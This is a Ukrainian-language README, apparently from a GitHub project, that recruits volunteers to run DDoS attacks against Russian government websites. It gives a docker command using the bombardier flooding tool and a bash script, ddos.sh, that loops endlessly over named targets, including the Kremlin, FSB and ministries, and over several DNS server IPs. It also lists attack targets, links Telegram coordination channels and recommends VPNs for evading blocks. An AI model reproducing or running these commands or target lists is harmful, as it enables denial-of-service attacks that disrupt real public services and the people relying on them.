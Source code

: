 **Періодично ВПН необхідно переключати, щоб оновити ip адресу**

Конференція, де можна отримати допомогу: [https://t.me/volyndigitalresistance](https://t.me/volyndigitalresistance)

# Android/iOS
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
1. За можливості встановіть VPN (сервіси дуже швидко блокують ip адреси з України)  
- [F-Secure](https://www.f-secure.com/en/home/login)  
- [список альтернативних сервісів](https://t.me/c/1627443142/3)  
2:  
[Android/iOS]  
Просто відкрийте і залиште один з сайтів відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/) / [https://help-ukraine-win.s3.eu-west-1.amazonaws.com/index.html](https://help-ukraine-win.s3.eu-west-1.amazonaws.com/index.html)  
[Android]  
[Встановіть додаток та слідуйте туторіалу за посиланням](https://telegra.ph/YAk-ddositi-na-telefon%D1%96-02-24)  

*Нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky)*  

# Windows/Mac/Linux
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [F-Secure](https://www.f-secure.com/en/home/login) - РЕКОМЕНДОВАНО
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [ClearVPN](https://my.clearvpn.com/promo/redeem?code=SAVEUKRAINE) - БЕЗКОШТОВНО НА РІК З ПРОМОКОДОМ SAVEUKRAINE
- [Urban VPN](https://www.urban-vpn.com/)
4. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт - *нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky)*)  
**Ви можете відкрити декілька вікон терміналу**  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/itarmyofukraine2022](https://t.me/itarmyofukraine2022)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Доповнення  
Можете створити файл `ddos.sh` з контентом:
```
#!/bin/bash -x
DESTS=( "http://duma.gov.ru/" "http://president-sovet.ru/" "https://sovetnational.ru/" "https://www.gosuslugi.ru/ru/" "https://zakupki.gov.ru/epz/main/public/home.html" "https://gossluzhba.gov.ru/" "http://defence.council.gov.ru/" "http://budget.council.gov.ru/" "http://www.kremlin.ru/" "https://government.ru/" "http://www.scrf.gov.ru/" "http://www.ksrf.ru/ru/Pages/default.aspx" "http://www.vsrf.ru/" "http://premier.gov.ru/events/" "https://www.mchs.gov.ru/" "https://minjust.gov.ru/ru/" "http://www.fsb.ru/" "https://rosguard.gov.ru/" "https://customs.gov.ru/" "https://udprf.ru/" "http://favt.gov.ru/" "http://194.67.2.109:53/UDP" "http://194.67.7.1:53/UDP" "http://194.54.14.187:53/UDP" "http://194.54.14.186:53/UDP" )
TIME="180s"
while TRUE
do
   for DEST in ${DESTS[@]}
   do
       docker run -ti --rm alpine/bombardier -c 1000 -d $TIME -l $DEST
   done
done
```
та запустити з допомогою команди `chmod +x ddos.sh && sh ddos.sh` в терміналі  

# Корисні ресурси
- [Туторіал по DDoS](https://tarahtino.notion.site/tarahtino/DDoS-1505b74f6f8443768dc47e0f4d2ee8b2)

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)
